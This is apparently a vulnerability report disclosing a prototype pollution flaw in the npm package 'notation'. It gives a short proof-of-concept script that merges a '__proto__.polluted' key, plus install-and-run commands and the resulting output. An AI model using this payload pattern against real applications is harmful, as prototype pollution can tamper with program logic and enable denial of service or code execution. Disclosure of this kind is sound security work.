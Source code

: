 # Description

`notation` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
const { Notation } = require('notation');
const obj = {}
console.log("Before : " + obj.polluted);
const notate = Notation.create(obj)
notate.merge({ '__proto__.polluted': "Yes! Polluted" })
console.log("After : " + obj.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i notation # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Polluted
```
